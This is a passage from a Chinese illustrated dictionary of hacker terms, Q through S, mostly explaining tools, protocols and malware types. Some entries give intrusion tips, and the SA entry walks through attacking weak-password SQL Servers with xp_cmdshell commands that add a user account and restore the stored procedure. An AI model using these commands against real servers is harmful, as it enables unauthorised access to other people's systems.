Python 是一种面向对象的、解释性的计算机程序设计语言，也是一种功能强大而完善的通用型语言，已具有十多年发展历史，成熟且稳定。Python 具有脚本语言中最丰富和强大的类库，足以支持绝大多数日常应用。这种语言具有非常简捷、清晰的语法特点，适合完成各种高层任务，几乎可在所有操作系统中运行。目前，基于这种语言的相关技术正在飞速发展，用户数量急剧扩大，相关资源非常多。


## QEMU 操作系统及其相关

QEMU 是款基于 GPL 协议的、开放源代码、跨平台的虚拟机软件，它的好处是不用安装庞大的虚拟机系统。

QEMU 的优点是：免安装、绿色、小巧！当然，它不能完全取代 VMWARE 之类的虚拟机软件（由于 QEMU 是完全虚拟了一个真实的 CPU，故 CPU 占用率较高）。

QEMU 的使用非常简单，因为它不用安装，只需使用文字指令和参数即可操作（当然，这也是它的缺点，命令行操作起来比 GUI 界面要麻烦很多）。QEMU 可仿真的操作系统类型非常多元，包括 Linux 系列、Mac OS 系列、FreeBSD 系列、Windows 系列等。

一般操作系统仿真程序的执行速度都非常慢，但 QEMU 的速度居然可达到正常的四分之一以上，在仿真程序中算是快的了。对于有需要在同一台计算机安装多个操作系统的人来说，QEMU 一定能帮得上大忙。

## QQ 应用程序

一款在中国占有率接近 80% 的 IM 软件，相信你也在使用。

## QQAV 应用程序

由孤独剑客开发的一款专门查杀腾讯 QQ 自动发消息病毒的免费软件，该工具具有杀毒、准确度高、瞬间完成、不用重启等特点，而且还提供能有效过滤有毒消息、屏蔽恶意网站的功能。

## QQSniffer 黑客工具

一款专门嗅探 QQ 号的嗅探器，如图 Q-1 所示，此嗅探器只能在支持 RAW SOCKET 的机器上运行，而且还得是非交换环境的局域网内，可以嗅到整个局域网内的 QQ 号。其基本原理就是将网卡激活为混杂模式后，嗅探所有的 QQ 消息数据包，并将其号码分离出来。


图 Q-1

## QQ 病毒 病毒与恶意软件

QQ 病毒是一类即时通讯（IM）病毒，此类病毒主要是指通过盗取即时通讯软件（如 MSN、QQ 等）的密码，向用户联系人自动发送虚假消息或自身文件来达到传播病毒的目的。

**QQ 病毒通常有两种工作模式：**一种是自动发送虚假文本消息，这些消息一般都包含一个或多个网址，指向虚假的钓鱼网页，收到消息的用户一旦点击打开了钓鱼网页，不仅可能泄露隐私，还可能感染其他网页木马。另一种是利用即时通讯软件的传送文件功能将自身直接发送出去，这也是时下流行的主模式。这种病毒也是黑色产业重要组成部分，各种钓鱼攻击也都可用它发起。

## QQ第六感｜病毒与恶意软件（黑客工具）

QQ第六感是款 QQ 辅助软件，界面如图 Q-2 所示。用它可查找到包括网吧、校园网等各种局域网内的所有在线 QQ 号码，其功能与原理跟 **QQ SNIFFER** 基本一致。


图 Q-2

## QQ木马｜病毒与恶意软件

QQ 木马是个非常广义的词语，它既可以指 **QQ 病毒**，也可以指用来盗取 QQ 密码的程序，后者将大量 QQ 密码发给盗号者，盗号者可将其以 QQ 信封的形式卖出。这类木马是黑色产业链的重要组成部分。

## QQ尾巴｜病毒与恶意软件

QQ 病毒的一种，以前非常流行，其特点是在用户发送信息时自动插入一行网址或其他广告语句。这个网址可能是钓鱼网页，也可能是其他广告。**QQ尾巴** 病毒并不是利用 QQ 本身的漏洞进行传播，它一般以网页木马的形式进行传播，其大多都利用了网民的心理，将其网页做成色情网站以让更多的人上钩。

## Query user｜操作系统及其相关

使用终端服务时常用的命令，用来显示有关终端服务器上的用户会话的信息。

```bash
query user [{UserName | SessionName | SessionID}] [/server:ServerName]
```

- 参数：
- **UserName**：指定待查询用户的登录名；
- **SessionName**：指定待查询会话的名称；
- **SessionID**：指定待查询会话的 ID；
- **/server:ServerName**：指定要查询的终端服务器，否则使用当前终端服务器。

如果特定用户登录到特定的终端服务器，则可使用 **Query user** 命令查找并返回以下信息：

- 用户名
- 终端服务器上的会话名
- 会话 ID
- 会话的状态（活动或断开连接）
- 空闲时间（在该会话中自上次击键或鼠标移动以来经过的分钟数）
- 用户登录的日期和时间

要使用 **Query user**，你必须有完全控制权限或查询信息的特殊访问权限。如果你不指定用户名、会话名称或会话标识，而直接使用 **query user** 命令，则会返回一个登录到该服务器的所有用户列表。另外，也可以使用 **query session** 显示服务器上所有会话列表。

## Quick Unpack｜加密解密

Quick Unpack 是款很好的脱壳工具，专门对付常见的壳，包括 UPX 1.xx、ASPack 2.12、FSG 1.33/2.0、PECompact 1.x/2.x、MEW10、MEW11。与同类软件相比，其优势在于体积小，可全自动脱壳，速度快，并且脱得很干净，使你的脱壳工作更轻松。具体操作方法为：取一个程序，输入 16 进制的 OEP 值（或点击“检测”自动获取），单击“开始脱壳”即可。如果顺利，脱壳过程会完成得非常快。

## Q币｜特定名称

Q 币是由腾讯公司推出的一种虚拟货币，通常它的兑价是 1 Q 币 = 1 元人民币。


## Registry Monitor｜应用程序

Registry Monitor 全称为 Active Registry Monitor，它是分析检查系统注册表文件的工具软件，如图 R-1 所示。可以根据对注册表文件进行快照的方式，对比注册表文件的部分或全体改变。

每次的快照文件都会被分别储存，便于长期的追踪，用户可以随时将两个快照备份文件取出做比较，并提供有 Regedit 功能来修改现有注册表文件中的信息。利用它可以很好地研究木马与病毒对注册表具体的修改情况，这也是分析木马与病毒的常用方法之一。


图 R-1

## Radmin｜应用程序

Radmin 全称为 Remote Administrator，它是一款与 pcAnywhere 相似的远程控制软件，如图 R-2 所示。通过它可以达到与 Windows 的 Terminal Services 服务一样的效果，即在本地看见远程计算机的屏幕显示，本地的鼠标、键盘的有关反应也会传送到远程计算机，这时可以像使用本地主机一样使用远程主机。

### Radmin 主要有以下特点：

- 运行速度快。
- Radmin 支持被控端以服务的方式运行、支持多个连接和 IP 过滤（即允许特定的 IP 控制远端机器）、个性化的文件互传、远程关机、支持高分辨率模式、基于 Windows NT 的安全支持及密码保护以及提供日志文件支持等。
- 在安全性方面，Radmin 支持 Windows NT/2000 用户级安全特性，您可以将远程控制的权限授予特定的用户或者用户组。Radmin 将以加密的模式工作，所有的数据（包括屏幕影像、鼠标和键盘的移动）都使用 128 位强加密算法加密；服务器端会将所有操作写进日志文件，以便于事后查询；服务器端有 IP 过滤表，对 IP 过滤表以外的控制请求将不予响应。
- Radmin 目前支持 TCP/IP 协议，应用十分广泛。


图 R-2

## Radius｜黑客技术基础

Radius 即远程用户拨号认证系统（Remote Authentication Dial In User Service）。

具体地说，RADIUS 是一种在网络接入服务器和共享认证服务器间传输认证、授权和配置信息的协议。RADIUS 使用 UDP 作为其传输协议，主要负责传送网络接入服务器和共享计费服务器间的计费信息。它现在广泛应用于各个住宅小区与学校的宽带拨号所使用的认证系统。

## RAR｜操作系统及其相关

在网络上最常用的一种压缩文档格式。准确地说，RAR 是一种文件压缩与归档的私有格式。RAR 文件的扩展名是 .rar，MIME 类型是 application/x-rar-compressed，它是无损数据压缩。

RAR 文件通常比 ZIP 文件压缩比要高，但是压缩速度较慢。因为 RAR 文件头也要占据一定空间，在数据压缩余地不大时，压缩过的文件可能比原文件要大。

RAR 的一个主要优点是可以把文件压缩目标分割到多个文件，并且很容易从这样的分割压缩文件解压出源文件。另外，RAR 也支持紧缩格式，把所有文件压缩到同一个数据区以加大压缩比，代价是解压一个单独的文件时必须解压其前面的所有文件。

新的 RAR 的加密算法使用的是 AES，而旧的 RAR 的加密算法是私有的。这两种算法都很难破解，所以在没有密码的情况下只能用字典暴力破解法来破解。

## RawSocket｜程序语言与开发

RawSocket 即原始套接字，SOCKET 编程中常用套接字类型，可以用它来发送和接收 IP 层以上的原始数据包，如 ICMP、TCP、UDP 等。

```c
int sockRaw = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
```

C 语言中使用语句 `int sockRaw = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);` 来创建一个 RawSocket。

## RC4, BLOWFISH, DES, TEA｜安全技术

RC4、BLOWFISH、DES、TEA 都属于 19 种国际标准加密算法：对称算法文件加密。

- **DES**（Data Encryption Standard）：数据加密标准，速度较快，适用于加密大量数据的场合；
- **RC4**：用变长密钥对大量数据进行加密，比 DES 快；
- **BLOWFISH**：它使用变长的密钥，长度可达 448 位，运行速度很快。

## RDP｜黑客技术基础

RDP 远程桌面协议（Remote Desktop Protocol）允许用户访问运行在服务器上的应用程序和服务，无需他们本地执行这些程序。这个协议也是 Windows 终端服务的基础。

## RARP｜黑客技术基础

反向地址转换协议（RARP）允许局域网里的计算机从网关服务器的 ARP 表或者缓存上查询 MAC 地址对应的 IP 地址。也就是说，它是 ARP 协议的逆过程。

一般地，网络管理员在局域网网关路由器里创建一个表以映射物理地址（MAC）和与其对应的 IP 地址。当设置一台新的机器时，其 RARP 客户机程序需要向路由器上的 RARP 服务器请求相应的 IP 地址。假设在路由表中已经设置了一个记录，RARP 服务器将会返回 IP 地址给机器，此机器就会存储起来以便日后使用。

## ReactOS｜操作系统及其相关

ReactOS 是一个开发与 Windows NT/2000 应用程序、硬件驱动程序兼容的开源操作系统项目，旨在开发优秀的兼容 Windows 应用程序和设备驱动。ReactOS 遵循 GNU 通用公共许可证协议发布，其主要是由 C 语言编写，部分元件则由 C++ 编写，例如 ReactOS 文件浏览器。

## RealPlayer｜应用程序

RealPlayer 是网上著名的多媒体播放软件，它是一个在因特网上通过流技术实现音频和视频实时传输的在线收听工具软件。使用它不必下载音频/视频内容，只要线路允许，就能完全实现网络在线播放，极为方便地在网上查找和收听、收看自己感兴趣的广播、电视节目。其主要功能包括：支持 RealFlash 功能；带有目标按钮，只需单击鼠标就可收听新闻和娱乐资讯；近乎 CD 一样的音频效果，全屏播放图像功能。

## RealPlayer 溢出漏洞｜安全技术

RealPlayer 溢出漏洞的全名为“RealNetworks RealPlayer.smil 文件处理缓冲区溢出漏洞”。RealPlayer 处理“.smil”文件的某些属性字段时，未对拷贝操作中的一些字符串作严格的限制，因此存在缓冲区溢出漏洞。攻击者可通过精心构造“.smil”文件使 RealPlayer 执行任意恶意指令，从而入侵并控制被溢出者的电脑。

## reboot｜特定名称

reboot 是 Linux 下用来重启电脑的命令，语法如下：

reboot 命令可被用于在没有其他用户登录到本系统时执行一个重新引导操作。

```bash
reboot | fastboot [ -l ][ -n ][ -q ][ -t mmddHHMM[ yy ] ]
```

## Received 字段｜黑客技术基础

Received 字段是电子邮件头的字段之一，一般会有几条，形成站点列表，这些信息表明到达目的地过程中邮件所经过的服务器。该域都是邮件服务器自动插入的，spammer 字段可以伪造，但是在被伪造的那个点之后的是无法伪造的。这个列表从下往上表明了服务器路径，最上面的一条 Received 是最终目的的系统或邮件服务器。

每个邮件系统都有自己的 **Received: from ...(ip address) by ...** 样式，因此，也可以通过该行来鉴别接收邮件的系统。

## RECOVERY CONSOLE｜操作系统及其相关

RECOVERY CONSOLE 即故障恢复控制台，可以启用和禁用服务、格式化驱动器、在本地驱动器上读写数据（包括使用 NTFS 格式化驱动器），并执行许多其他管理任务。

如果需要通过从软盘或光盘将文件复制到硬盘驱动器上来修复系统，或需要重新配置使计算机不能正常启动的服务，故障恢复控制台非常有用。

进入故障控制台的方法一般是插入安装盘后，进入安装界面再按 R 键，如图 R-3 所示。


## Recton 程序种植者｜黑客工具

国内一款程序种植工具，如图 R-4 所示，提供两种种植方式：

- 传统的 IPC
- HTTP 下载

第一种方式不依赖 Task Scheduler 服务，第二种的原理其实是通过 WMI 服务在远程主机上写入一个具有下载功能的脚本，然后执行这个脚本去指定 HTTP 地址下载文件，再用 WMI 服务运行。整个过程都不依赖 IPC 和其他共享，也不依赖 Task Scheduler，在 XP 中比较好用。


注意那个下载用的脚本，可能会使杀毒软件报警！运行完后程序会自动删除。

## Red Flag DC Server 5.0｜操作系统及其相关

Red Flag 即红旗 Linux 操作系统，是少有的国产操作系统之一，如图 R-5 所示。无论怎么样，我们都要力挺民族软件工业。


图 R-5

## Red Hat｜操作系统及其相关

Red Hat 公司（即红帽子）是全球最大的开源技术厂家，其产品 Red Hat Linux 也是全世界应用最广泛的 Linux。Red Hat 公司创建于 1993 年，是目前世界上最资深的 Linux 和开放源代码提供商，同时也是最获认可的 Linux 品牌。

作为全球企业最重要的 Linux 和开源技术提供商，Red Hat 是目前全球最先自负盈亏的 Linux 企业，NASDAQ 上市公司，银行现金高达 29 亿美元；也是唯一获得全球顶尖 ISV（独立软件提供商）广泛支持的 Linux 厂商；是 Compaq、Dell、IBM、Intel 等一流 IT 企业的合作伙伴；更拥有 52% 的 Linux 操作系统市场份额。其标识如图 R-6 所示。


## Red Hat Fedora｜操作系统及其相关

Red Hat Fedora 项目是一份由 Red Hat 策划的开放开发项目，它向普通参与者开放，并由精英管理者领导，沿着一系列项目目标而前进。Fedora 项目的目标是与 Linux 社区协作，只从开放源码软件来创建一份完整的、通用的操作系统。详情请见 Fedora。

## RegSnap｜应用程序

RegSnap 是一款注册表监视工具，其功能与 Registry Monitor 相似，它可以详细地向用户报告注册表及其他与系统有关项目的修改变化情况。

RegSnap 对系统的比较报告非常具体，对注册表可报告修改了哪些键，修改前、后的值各是多少；增加和删除了哪些键以及这些键的值。报告结果既可以以纯文本的方式，也可以以 HTML 网页的方式显示，非常便于查看。

除系统注册表以外，它还可以报告系统的其他情况，如：Windows 的系统目录和 system32 子目录下文件的变化情况，包括删除、替换、增加的文件；Windows 的系统配置文件 win.ini 和 system.ini 的变化情况，包括删除、修改和增加了的内容；自动批处理文件 autoexec.bat 是否被修改过。

该软件可以在需要的时候方便地恢复注册表，并直接调用 regedit 程序查看或修改注册表，还可以查看当前机器的机器名和用户名。

## REG 文件｜操作系统及其相关

REG 文件实际上是一种注册表脚本文件，双击 REG 文件即可将其中的数据导入到注册表中。利用 REG 文件可直接对注册表进行任何修改操作，它对注册表的操作可以不受注册表编辑器被禁用的限制，因此功能更为强大、灵活。

另外，由于 REG 文件可以用任何文本文档编辑工具（例如记事本）进行修改，因此通过它对注册表数据进行修改后，如果发生错误，还可以通过改回 REG 文件中的数据后再导入，从而实现恢复操作。因此它又较之直接用注册表编辑器修改更安全，所以熟练掌握 REG 文件的运用，有时可以起到事半功倍、意想不到的效果。

## Rem｜操作系统及其相关

Rem 语句是批处理中用来注释的命令，可增加程序的可读性。它的用法很简单，直接将注释内容写到 `::` 或 Rem 后面就可以了。注释的内容可以为任意 ASCII 字符（甚至一条命令），它们不会在执行时显示出来或被执行。但需注意的是，使用 `::` 或 Rem 命令做注释，一般都是另起一行来写，这样显得规范且不易出错。另外，`::` 和 rem 命令的作用和用法都完全一样。

## RemoveService｜应用程序

用来删除服务的小程序，AIO 已经将其集成。

```
用法：Aio.exe --RemoveService 要删除的服务
例子：Aio.exe --RemoveService test
帮助：Aio.exe --RemoveService。
```

## Request｜黑客技术基础，脚本

Request 是 ASP 与 JSP 的内建对象，Request 对象里封装了客户端提交的数据信息，包括用户提交的信息以及客户端的一些信息。其中有两个提交数据的方法是最常用的，即 **GET** 与 **POST**。客户端通过 HTML 表单（即 POST）或者在 **URL** 后带参数（即 GET）来提交数据。

## Resource Kit｜程序语言与开发

Resource Kit（简称 ResKit）实际上是微软为 Windows 管理员提供的一套额外的工具集。包括了超过 400 个各种工具，支持 **vbs、dll、msc**，涵盖了管理 **TCP/IP**、网络、注册表、安全、远程管理、配置、**Dat** 文件，以及操作系统的其他方面，是可以让管理员更容易地管理系统。

对于细心配置的系统，攻击也只能伤其表面，但是任何东西都有两面性，ResKit 就非常具有代表性，在黑客圈中，大家习惯把这个玩意叫做“**Hacker 的工具箱**”。

## RESSCOPE｜应用程序

RESSCOPE 是一个类似 **eXeScope** 的软件资源分析和编辑工具，功能已超过 eXeScope。它使用内存载入资源分析，所以被分析的程序并未被独占，在分析期间仍可使用。其拥有最出色的资源分析技术，内置的文字编辑器与 16 进制编辑器是由较低层的控件编写的，使资源载入更快，编辑更方便。它所拥有最出色的资源预览技术，可以实时创建预览的菜单和对话框。对于 16 位软件，只要正在运行，ResScope 可以预览任何未知控件。另外，它还可以编辑 32 位软件和 16 位软件，并改变资源大小。

## RING0｜操作系统及其相关

RING0 是指令系统特权的级别之一，也是最高级的级别。Intel 的 CPU 将特权级别分为 4 个级别：RING0、RING1、RING2 和 RING3。

Windows 只使用其中的两个级别 RING0 和 RING3，RING0 只给操作系统用，RING3 给用户使用。如果普通应用程序企图执行 RING0 指令，则 Windows 会显示“非法指令”错误信息。尽管有 CPU 的特权级别作保护，Windows 98 与以前的版本由于此处管理不严，也就造成了用户频繁死机的现象。

在 CPU 的所有指令中，有一些指令是非常危险的，如果错用，将导致整个系统崩溃。比如：清内存、设置时钟等。如果所有的程序都能使用这些指令，那么系统将很难保持稳定。所以，CPU 将指令分为特权指令和非特权指令，对于那些危险的指令，只允许操作系统及其相关模块使用，普通的应用程序只能使用非特权指令。

用那些不会造成灾难的指令。形象地说，特权指令就是那些“儿童不宜”的东西，而非特权指令则是“老少皆宜”。

RING0 层的程序可以直接和硬件打交道，而其他层的程序就必须通过 `hal.dll` 来调用相应的 API 与硬件交互。所以，如果想完全控制电脑就必须进入 RING0 层，这也是许多病毒与木马的目标与难点。

Windows NT/2000 为实现其可靠性，严格将系统划分为内核模式与用户模式，在 i386 系统中分别对应 CPU 的 RING0 与 RING3 级别。RING0 下可以执行特权级指令，对任何 I/O 设备都有访问权等。要实现从用户态进入核心态，即从 RING3 进入 RING0，必须借助 CPU 的某种门机制，如中断门、调用门等。而 Windows NT/2000 提供用户态执行系统服务（RING0 例程）的此类机制即 System Service 的 `int 2Eh` 中断服务等。由于有严格的参数检查，只能严格执行 Windows NT/2000 提供的服务；而如果想执行用户提供的 RING0 代码，主要有几种思路：

- 1. 编写设备驱动程序。
- 2. 直接读写物理内存的方法，读写 GDT 所在的物理内存，在 GDT 上生成自己的调用门来随意进出 RING0。
- 3. 修改 NTLDR 的 GDT 上的描述符进入 RING0。

## RING3 操作系统及其相关

RING3 即 CPU 指令的用户模式。

## RIP 黑客技术基础

RIP（Routing Information Protocol）是应用较早、使用较普遍的内部网关协议，适用于小型同类网络。它的作用是让网络中的包以较短的距离到达目的地，但不能保证此路由最短。

RIP 通过广播 UDP 报文来交换路由信息，每 30 秒发送一次路由信息更新。RIP 提供跳跃计数（hop count）作为尺度来衡量路由距离，跳跃计数是一个包到达目标所必须经过的路由器数目。

如果到相同目标有两个不等速或不同带宽的路由器，但跳跃计数相同，则 RIP 认为两个路由是等距离的。RIP 最多支持的跳数为 15，即在源和目的网间所要经过的最多路由器数目为 15，跳数 16 表示不可达。

## RJ-45 接口 黑客技术基础

RJ-45 接口是我们平时最常用的网线接口，又称双绞线接口，是含有八根末端铜线的接头，如图 R-7 所示。RJ-45 端口在网络通信中主要用于连接计算机的以太网卡。

## 黑客术语图文辞典 → Rootkit

以太网中也主要采用双绞线作为传输介质，所以根据端口通信速率不同，RJ-45 端口又可分为 10Base-T 和 100Base-TX 两类。

其中 10Base-T 端口在路由器中通常标识为“ETH”，而 100Base-TX 端口则通常标识为“10/100bTX”，这主要是因为现在快速以太网路由器产品多数还是采用 10/100Mbps 带宽自适应方式。


## ROM 硬件

ROM 即只读内存（Read-Only Memory），它是一块单独的内部存储器，和随机内存 RAM（即平时说的内存）不同，用来存储和保存永久数据。

ROM 数据不能随意更新，但是在任何时候都可以读取。即使断电，ROM 也能够保留数据。往 ROM 中注入数据需要另外的编译器，PC 上面是没有这个功能的。

经常有人通过容量空间大小把 ROM 和硬盘搞混淆。硬盘属于外部存储器，而 ROM 是内部存储器。硬盘可以轻易改写内容，但是 ROM 不可以，而且硬盘容量比 ROM 大得多。在 PC 中，ROM 内的内容有 BIOS 程序、机器码和出厂信息之类的东西。

## Root 特定名称

Linux 下 Root 权限与 administrator 权限可以理解成一个概念。root 是 Linux 系统中的超级管理员用户账户，它拥有整个系统至高无上的权利，所有对象都可以操作，所以很多黑客在入侵 Linux 系统时都要把权限提升到 root 权限，也就是将自己的非法账户添加到 root 用户组。

## Rootkit 渗透技术

简单地说，Rootkit 是一种综合性的后门，也可以说是一个强大的系统管理程序。一个 Rootkit 可以把木马、嗅探器、清理日志、隐藏文件程序等多种功能的黑客程序结合起来，同时它利用操作系统的模块化技术，作为系统内核的一部分运行。许多 Rootkit 可以通过替换 DLL 文件或更改系统来攻击 Windows 平台。

Rootkit 包括跟踪信息的程序、为了进入某个系统而建立后门的程序、修改报警日志文件的程序和攻击网络上其他机器的程序等。由于 Rootkit 具有功能强大、隐藏性非常好等特点，一旦被安装到远程系统中，这个系统就会完全被植入此 Rootkit 的人控制，有时甚至无法找到 Rootkit 被安装过的痕迹，所以黑客用它来获取远程计算机的未经授权的远程访问权限，从而发动远程攻击，给用户带来了严重的安全威胁。

为了躲避检测，Rootkit 的运行没有使用系统进程，而是在驱动程序和内核线程中运行自己的代码，甚至替换系统文件。入侵者可以利用 Rootkit 很好地保存战果，利用它来隐藏文件夹、文件、进程、端口、注册表等所有与其相关的信息内容。

### 一个基本的 RootKit 可以包括以下功能：

- 1. 嗅探器程序，用于获得网络上传输的用户名和密码等信息。
- 2. 木马程序，例如：`inetd` 或者 `login`，为攻击者提供后门，方便其再次访问。
- 3. 隐藏攻击者目录和进程的程序，例如：`ps`、`netstat`、`rshd` 和 `ls` 等。
- 4. 日志清理工具，例如：`zap`、`zap2` 或者 `z2`，攻击者使用这些工具删除 `wtmp`、`utmp` 和 `lastlog` 等日志文件中有关自己行踪的条目。
- 5. 用来清理 `/var/log` 和 `/var/adm` 目录中其他文件的一些脚本（Linux 下）。

在 Linux 下，入侵者使用 rootkit 中的相关程序替代系统原来的 `ps`、`ls`、`netstat` 和 `df` 等程序，使系统管理员无法通过这些工具发现自己的踪迹。接着使用日志清理工具清理系统日志，消除自己的踪迹。然后，攻击者会经常通过安装的后门进入系统查看嗅探器日志，以发起其他攻击。

如果攻击者能够正确安装 rootkit，并合理清理日志文件，系统管理员就会很难察觉系统已经被侵入，直到某一天其他系统的管理员和他联系，或者嗅探器日志把磁盘全部填满，他才会察觉已经大祸临头。

据考证，Rootkit 的存在可追溯到上世纪 90 年代初，那时 Solaris 和 Linux 操作系统是 Rootkit 主要的攻击对象。而现在 Rootkit 不再局限于 Unix 这样的系统，其他操作系统如 Windows 也成为入侵者的目标。


### 黑客技术基础

RPC 即 Remote Procedure Call Protocol（远程过程调用协议），它是一种通过网络从远程计算机程序上请求服务，而不需要了解底层网络技术的协议。

RPC 协议假定某些传输协议的存在，如 TCP 或 UDP，为通信程序之间携带信息数据。在 OSI 网络通信模型中，RPC 跨越了传输层和应用层，它使得开发包括网络分布式多程序在内的应用程序更加容易。

RPC 采用客户机/服务器模式，请求程序就是一个客户机，而服务提供程序就是一个服务器。首先，调用进程发送一个有进程参数的调用信息到服务进程，然后等待应答信息。在服务器端，进程保持睡眠状态直到调用信息到达。当一个调用信息到达后，服务器获得进程参数，计算结果，发送答复信息，然后等待下一个调用信息；最后，客户端调用过程接收答复信息，获得进程结果，然后调用执行继续进行。

## RPC DCOM（操作系统及其相关）

即 Windows 用来实现 RPC 协议进程中的 DCOM（Distributed Component Object Model，分布式组件对象模型）接口。由于在 2003 年这个接口出现过漏洞，冲击波蠕虫利用它进行大肆传播，让世人熟知。详情请见 **MS RPC/DCOM 接口代码漏洞**。

## RPM（操作系统及其相关）

RPM Package Manager（RPM 软件包管理器）是 Linux 下一种用于互联网下载包的打包及安装工具，它包含在许多 Linux 发行版中。它生成具有 `.RPM` 扩展名的文件，与 Dpkg 类似。RPM 是 RedHat Package Manager（RedHat 软件包管理工具）的缩写。这个文件格式名称虽然打上了 RedHat 的标志，但是其原始设计理念是开放式的，现在包括 OpenLinux、S.u.S.E. 以及 Turbo Linux 等 Linux 发行版本都有采用，可以算是公认的行业标准。

## RSA 算法（安全技术）

这种算法在 1978 年就出现了，它是第一个既能用于数据加密也能用于数字签名的算法。它易于理解和操作，也很流行。算法名字以发明者名字命名：Ron Rivest、Adi Shamir 和 Leonard Adleman。但 RSA 的安全性一直未能得到理论上的证明。

RSA 是被研究得最广泛的公钥算法，从提出到现在已近二十年，经历了各种攻击的考验，逐渐为人们接受，普遍认为是目前最优秀的公钥方案之一。RSA 的安全性依赖于大数因子分解，但并没有从理论上证明破译 RSA 的难度与大数分解难度等价。即 RSA 的重大缺陷是无法从理论上把握其保密性能。

**RSA 的缺点主要有：**

- 1. 产生密钥很麻烦，受到素数产生技术限制，因而难以做到一次一密。
- 2. 分组长度太大。为保证安全性，`n` 至少也要 600 bits 以上，使运算代价很高，尤其速度较慢，比对称密码算法慢几个数量级；且随着大数分解技术的发展，这个长度还在增加，不利于数据格式标准化。目前，SET（Secure Electronic Transaction）协议中要求 CA 采用 2048 比特长密钥，其他实体使用 1024 比特密钥。

## RSS（黑客技术基础）

RSS（也叫聚合内容，Really Simple Syndication）是一种描述和同步网站内容的格式，它是 WEB2.0 的代表，也是目前使用最广泛的 XML 应用。利用 RSS 能订阅 BLOG 和新闻，用户订阅后就不用一个网站一个网站地查看内容、一个网页一个网页去逛了。只要将需要的内容订阅在一个 RSS 阅读器中，这些内容就会自动出现在用户阅读器里。用户也不必为了一个急切想知道的消息而不断刷新网页，因为一旦有更新，RSS 阅读器就会自己通知用户。图 R-8 为 RSS 的标识。


随着越来越多站点对 RSS 的支持，RSS 已经成为目前最成功的 XML 应用。RSS 搭建了信息迅速传播的一个技术平台，使得每个人都成为潜在的信息提供者。随着 RSS 技术的发展，已经有专门基于这种技术的 RSS 门户了，例如抓虾（www.zhuaxia.com）。

## RST 标志（黑客技术基础）

TCP 报头中的六个基本标志之一，即复位请求（Reset the connection）。用于复位因某种原因出现错误的连接，也用来拒绝非法数据和请求。如果接收到 RST 标志，通常说明发生了某些错误。其他关于 RST 标识的信息请见 TCP。

RST 有时也能被用来进行拒绝攻击。当一个合法用户（1.1.1.1）已经同服务器建立正常连接时，攻击者构造攻击 TCP 数据，伪装自己的 IP 为 1.1.1.1，并向服务器发送一个带有 RST 标志的 TCP 数据段。服务器接收到这样的数据后，认为从 1.1.1.1 发送的连接有错误，就会清空缓冲区中已建立好的连接。这时如果合法用户 1.1.1.1 再发送合法数据，服务器就已经没有这样的连接了，该用户必须重新开始建立连接。

## RTSP 协议（黑客技术基础）

RTSP（Real Time Streaming Protocol），实时流传输协议，是 TCP/IP 协议体系中的一个应用层协议，是哥伦比亚大学、网景和 RealNetworks 公司提交的 IETF RFC 标准。该协议定义了一对多应用程序如何有效地通过 IP 网络传送多媒体数据。

RTSP 在体系结构上位于 RTP 和 RTCP 之上，它使用 TCP 或 RTP 完成数据传输。HTTP 与 RTSP 相比，HTTP 传送 HTML，而 RTP 传送的是多媒体数据。HTTP 请求由客户机发出，服务器作出响应；而使用 RTSP 时，客户机和服务器都可以发出请求，即 RTSP 可以是双向的。该协议用于 C/S 模式，是一个基于文本的协议，用于在客户端和服务器端建立和协商实时流会话。

## Runas（操作系统及其相关）

Windows 系统中常用的命令。`Runas` 命令允许用户用其他权限运行指定工具和程序，而不是当前登录提供的权限。语法如下：

```bash
runas [{/profile|/noprofile}] [/env] [/netonly] [/smartcard] [/showtrustlevels] [/trustlevel] /user:UserAccountName program
```

`runas` 命令允许你运行程序（`*.exe`）、保存的 MMC 控制台（`*.msc`）、程序和保存的 MMC 控制台快捷方式及“控制面板”项。作为另一组（例如 “Users” 或 “Power Users” 组）成员登录到计算机时，可以以管理员身份运行。例如以 administrator 身份启动 `cmd`，只需要输入命令：

```bash
runas /profile /user:administrator cmd
```

再输入管理员密码即可。

早期通过 `TELNET` 入侵时，可以先在本地创建一个与远程主机相同的账户，再使用 Runas 来启动 TELNET 进行连接。这样是突破 `NTLM` 认证的一个简单方法。

## RUNIT 应用程序

RUNIT 能跟踪最后执行的 WIN32 程序，把它们的快捷方式放入桌面的 system tray 中，方便再次使用。


## SA 与数据库

SA（即 System Admin 的缩写）是 SQL Server 数据库的默认系统账户，具有最高权限，就像系统的 `administrator` 用户一样。许多弱口令 SA 用户也成了服务器的薄弱点，这也是攻击者在入侵时常见的突破口。

下面用具体操作来看一下 SA 在 SQL Server 安全性中的重要地位。在 SQL 控制台中点击“安全性”→“登录”，如图 S-1 所示。


图 S-1

在右栏的 SA 用户下按鼠标右键，出现 SA 属性界面，选择“服务器角色”，可以看到 SA 的角色是 system administrators（简写为 `sysadmin`），如图 S-2 所示。

前面提到角色就是一系列权限的集合。接着点击“属性”，在图 S-3 所示中可以看到该角色拥有操作 SQL Server 的所有权限。

在“数据库访问”中可以看出 SA 具有所有数据库的访问权限，如图 S-4 所示。

理论上，在扫描出 SA 弱口令后，可以用 SQL Server 自带的查询分析器连接上去，再利用相应的扩展存储过程进行攻击。如果想更方便，也可以用一些现成工具，如 SQLexec 或者 SQL 综合利用工具。如图 S-5 所示，为 SQLexec。


用查询分析器连上去后，如果管理员没有删除 `xp_cmdShell`，可以直接执行：

```sql
exec master..xp_cmdShell 'net user CODY 12345 /add'
```

添加一个 CODY 用户。如果是用工具，直接输入 DOS 命令即可。当然，也可以用 SQL 综合利用工具上传木马再运行，如图 S-6 所示。


图 S-6

可是在实际操作中，情况并不是这样简单。上传木马程序后，一般都会被对方杀毒软件杀掉。经过使用 SQL 事件探查器对 SQL 综合利用工具提交的 SQL 语句抓取发现，要使 SQL 综合利用工具上传功能成功完成，必须是在存储过程 `xp_cmdShell` 没有被删除的情况下。而对于这么危险的存储过程，许多管理员都会将其删除，这时就必须另辟蹊径，利用其他存储过程。

首先可以尝试恢复 `xp_cmdShell`，用查询分析器连接到对方的 Microsoft SQL Server 来恢复 `xp_cmdShell`。输入命令：**`exec sp_addextendedproc 'xp_cmdShell', 'xplog70.dll'`**，如图 S-7 所示。


图 S-7

